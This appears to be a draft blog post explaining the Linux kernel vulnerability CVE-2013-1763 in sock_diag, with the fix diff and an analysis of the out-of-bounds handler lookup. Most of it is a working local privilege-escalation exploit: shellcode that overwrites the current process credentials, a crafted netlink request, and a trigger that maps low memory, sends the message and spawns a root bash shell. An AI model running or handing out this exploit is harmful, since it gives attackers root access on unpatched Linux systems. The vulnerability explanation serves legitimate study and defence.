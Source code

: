 +++
title = "CVE-2013-1763" 
date =  "2014-04-19"
tags = ["exploit", "security", "networking"]
categories = ["Blog"]
draft = true
+++

Userland can send a netlink message requesting `SOCK_DIAG_BY_FAMILY` with a family greater or equal then `AF_MAX` -- the array size of `sock_diag_handlers[]`. The current code does not test for this condition therefore is vulnerable to an out-of-bound access opening doors for a privilege escalation.

Vulnerability
--------------

```diff
diff --git a/net/core/sock_diag.c b/net/core/sock_diag.c
index 602cd63..750f44f 100644
--- a/net/core/sock_diag.c
+++ b/net/core/sock_diag.c
@@ -121,6 +121,9 @@ static int __sock_diag_rcv_msg(struct sk_buff *skb, struct nlmsghdr *nlh)
  if (nlmsg_len(nlh) < sizeof(*req))
    return -EINVAL;
 
+ if (req->sdiag_family >= AF_MAX)
+   return -EINVAL;
+
  hndl = sock_diag_lock_handler(req->sdiag_family);
  if (hndl == NULL)
    err = -ENOENT;
  else
    err = hndl->dump(skb, nlh); // hndl->dump executes !!
```


In `__sock_diag_rcv_msg` function, userland variable `req->sdiag_family` is passed uncheckly to `sock_diag_handler`, within which overflow and exploit happens.

```c
static const inline struct sock_diag_handler *sock_diag_lock_handler(int family)
{
  if (sock_diag_handlers[family] == NULL)
    request_module("net-pf-%d-proto-%d-type-%d", PF_NETLINK, NETLINK_SOCK_DIAG, family);

  mutex_lock(&sock_diag_table_mutex);
  return sock_diag_handlers[family];
}
```

Here the function returns a pointer `sock_diag_handlers + family`.

```c
struct sock_diag_handler {
  __u8 family;
  int (*dump)(struct sk_buff *skb, struct nlmsghdr *nlh);
};
hndl = sock_diag_lock_handler(req->sdiag_family);
hndl->dump(skb, nlh); //(sock_diag_handlers + family + 8) executes !!
```

All story told, here we find that finally `(sock_diag_handlers + family + 8)` executes in kernel mode. 

Exploits
---------

1. Craft a piece of shell code.
2. Calcualte the value of `family` which points `sock_diag_handlers + family + 8` to the shell code.
3. Construct a package with large `family` and set it.
4. You got it.


Shell code
-----------

1. get `current` (pointer to the current process descriptor `task_struct`)
2. Manipulate `process credentials`

```c
static long ugid;
void patch_current() {
    int i,j,k;
    char *current = *(char**)(((long)&i) & (-8192));
    long kbase = ((long)current)>>36;
    
    for (i=0; i<4000; i+=4) {
        long *p = (void *)&current[i];
        int *t = (void*) p[0];
        if ((p[0] != p[1]) || ((p[0]>>36) != kbase)) continue;
        for (j=0; j<20; j++) {
            for (k = 0; k < 8; k++)
            if (((int*)&ugid)[k%2] != t[j+k])
            goto next;
            for (i = 0; i < 8; i++)
            t[j+i] = 0;
            for (i = 0; i < 10; i++)
            t[j+9+i] = -1;
            return;
next:;
        }
    }
}
```


Crafted a package
-----------------

```c
struct {
  struct nlmsghdr nlh;
  struct unix_diag_req r;
} req;

struct nlmsghdr {
  __u32   nlmsg_len;  /* Length of message including header */
  __u16   nlmsg_type; /* Message content */
  __u16   nlmsg_flags;  /* Additional flags */
  __u32   nlmsg_seq;  /* Sequence number */
  __u32   nlmsg_pid;  /* Sending process port ID */
};

struct unix_diag_req {
  __u8  sdiag_family;
  __u8  sdiag_protocol;
  __u16 pad;
  __u32 udiag_states;
  __u32 udiag_ino;
  __u32 udiag_show;
  __u32 udiag_cookie[2];
};
```

Trigger
---------

```c
int main()
{
  long u = getuid();
  long g = getgid();
  int i, f = socket(16,3,4);
  static int n[10] = {40,0x10014,0,0,45,-1};
 
  assert(mmap((void*)(1<<12), 1<<20, 3, 0x32, 0, 0)!=-1);
 
  setresuid(u,u,u); setresgid(g,g,g);
  ugid = (g<<32)|u;
 
  memcpy(1<<12, &patch_current, 1024);
  for (i = 0; i < (1<<17); i++) ((void**)(1<<12))[i] = &patch_current;
  send(f, n, sizeof(n), 0);
  setuid(0);
  return execl("/bin/bash", "-sh", 0);
}
```

Reference
----------

All credit goes to the authors of [this][1] and [this][2] exploits.

[1]: http://www.exploit-db.com/exploits/24746/
[2]: http://www.exploit-db.com/exploits/24555/
